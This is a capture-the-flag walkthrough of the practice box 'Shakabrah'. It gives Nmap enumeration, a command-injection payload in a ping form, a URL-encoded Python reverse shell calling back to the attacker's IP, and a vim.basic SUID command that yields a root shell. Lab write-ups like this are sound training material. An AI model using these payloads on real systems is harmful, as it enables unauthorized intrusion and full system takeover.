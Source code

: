 # PG Play - Shakabrah

#### Ip: 192.168.241.86
#### Name: Shakabrah
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -p-  --min-rate 10000 192.168.241.86
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:51 CDT
Nmap scan report for 192.168.241.86
Host is up (0.066s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -sC -sV 192.168.241.86 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:52 CDT
Nmap scan report for 192.168.241.86
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

Navigating to the site we find a "Connection Tester" that will ping supplied IP adresses. 

![site.png](../assets/shakabrah_assets/site.png)

And we can confirm we can ping localhost:

![local.png](../assets/shakabrah_assets/local.png)

Playing around with this field a bit, I discovered we can chain commands after adding a `;` character:

![code.png](../assets/shakabrah_assets/code.png)

Lets try to exploit this to get a reverse shell:

### Exploitation

Heading over to https://www.revshells.com/ I can grab the following reverse shell one-liner and conveniently URL encoded it there as well:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.197",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After URL encoding it and setting up a listener I can navigate to:

192.168.241.86/?host=127.0.0.1;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.197%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27

Which gets me a reverse shell back!

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ nc -lnvp 80 
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.241.86] 50098
$ whoami
whoami
www-data
$ hostname
hostname
shakabrah
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ 
```

From here I can grab the local.txt flag in dylan's `/home` directory:

![user_flag.png](../assets/shakabrah_assets/user_flag.png)

### Privilege Escalation

Lets go ahead and transfer over a copy of LinPEAS to help enumerate:

Interesting, LinPEAS finds asomething with the SUID bit set called vim.basic. I'm wondering if this is just vim?

We can head over to https://gtfobins.github.io/gtfobins/vim/ and find a couple of commands to try:

![suid.png](../assets/shakabrah_assets/suid.png)

We'll need to make sure we use `vim.basic` and `:py3` to account for Python3 being in use on the box.

Lets run:

```text
./vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Which will give us a root shell and we can grab the final flag:

![root_flag.png](../assets/shakabrah_assets/root_flag.png)

Thanks for following along!

-Ryan

-------------------------------------------------

